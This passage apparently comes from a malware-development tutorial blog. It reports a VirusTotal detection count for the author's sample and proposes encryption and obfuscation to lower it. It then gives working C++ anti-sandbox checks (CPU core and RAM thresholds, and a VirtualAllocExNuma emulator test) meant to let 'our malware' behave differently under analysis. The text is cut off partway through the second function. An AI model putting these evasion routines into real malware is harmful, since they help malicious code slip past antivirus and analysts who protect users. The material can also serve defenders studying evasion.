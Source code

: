 [https://www.virustotal.com/gui/file/4ff68b6ca99638342b9b316439594c21520e66feca36c2447e3cc75ad3d70f46/detection](https://www.virustotal.com/gui/file/4ff68b6ca99638342b9b316439594c21520e66feca36c2447e3cc75ad3d70f46/detection)    

**So, 6 of 67 AV engines detect our file as malicious.**

For better result, we can add payload [encryption](https://cocomelonc.github.io/tutorial/2021/09/04/simple-malware-av-evasion.html) with key or [obfuscate functions](https://cocomelonc.github.io/tutorial/2021/09/06/simple-malware-av-evasion-2.html), or combine both of this techniques.   

And what's next? Malwares often use various methods to fingerprint the environment they're being executed in and perform different actions based on the situation.   

For example, we can detect virtualized environment. Sandboxes and analyst's virtual machines usually can’t 100% accurately emulate actual execution environment. Nowadays typical user machine has a processor with at least 2 cores and has a minimum 2GB RAM. So our malware can verify if the environment is a subject to these constraints:   

```cpp
BOOL checkResources() {
  SYSTEM_INFO s;
  MEMORYSTATUSEX ms;
  DWORD procNum;
  DWORD ram;

  // check number of processors
  GetSystemInfo(&s);
  procNum = s.dwNumberOfProcessors;
  if (procNum < 2) return false;

  // check RAM
  ms.dwLength = sizeof(ms);
  GlobalMemoryStatusEx(&ms);
  ram = ms.ullTotalPhys / 1024 / 1024 / 1024;
  if (ram < 2) return false;

  return true;
}
```

Also we'll invoke the `VirtualAllocExNuma()` API call. This is an alternative version of `VirtualAllocEx()` that is meant to be used by systems with more than one physical CPU:    

```cpp
typedef LPVOID (WINAPI * pVirtualAllocExNuma) (
  HANDLE         hProcess,
  LPVOID         lpAddress,
  SIZE_T         dwSize,
  DWORD          flAllocationType,
  DWORD          flProtect,
  DWORD          nndPreferred
);

// memory allocation work on regular PC 
// but will fail in AV emulators
BOOL checkNUMA() {
  LPVOID mem = NULL;
  pVirtualAllocExNuma myVirtualAllocExNuma = 
  (pVirtualAllocExNuma)GetProcAddress(
  GetModuleHandle("kernel32.dll"), "VirtualAllocExNuma");
  mem = myVirtualAllocExNuma(GetCurrentProcess(), 
  NULL, 1000, MEM_RESERVE | MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE, 0);
  if (mem != NULL) {
    return false;
  } else {
    return true;
```